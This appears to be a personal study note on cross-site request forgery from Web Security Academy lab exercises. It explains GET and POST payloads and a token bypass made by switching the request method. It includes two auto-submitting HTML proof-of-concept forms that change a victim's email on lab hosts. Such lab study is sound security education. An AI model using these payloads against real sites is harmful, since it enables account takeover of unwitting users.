 If no defence is in place in a state-changing request, an appropriate HTML page can be made that will submit a request to the vulnerable app. 

Payloads for CSRF GET requests can be self contained within a URL - an attacker does not need to host the exploit code in their server. They simply send the link to the victim via social engineering techniques.

Payloads for CSRF POST requests need a form to be created with all the data needed to process the request successfully - an attacker must host this code somewhere and send a link of that malicious site to the victim. Browser automatically adds the authenticated session cookies to the request when clicked.

1. Find a vulnerable state-changing request (i.e. changing email)
2. Generate a CSRF PoC from Burp Pro

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a74000503dc7d74817e9a9100b50027.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="victim&#64;pwned&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

3. Change email address
4. Deliver to the victim
# CSRF Protection Bypass (HTTP Method)

If the app is using a CSRF token in the POST body parameter, change the request method to GET and leave out the token parameter (or modify it but leave it there), potentially bypassing the defence.

>[!info]
>Happens due to frameworks only implementing CSRF protection on state-changing requests, and state-changing requests should only be done with POST methods.

1. Find a vulnerable state-changing request
2. Change request method
3. Generate a CSRF PoC from Burp Pro & remove/modify the token value

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aca002a04b949f58771396f000100cd.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="victim&#64;victim&#46;net" />
      <input type="hidden" name="csrf" value="o1vGcjnkr9Z3HzljhgTHGUGghghdge" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
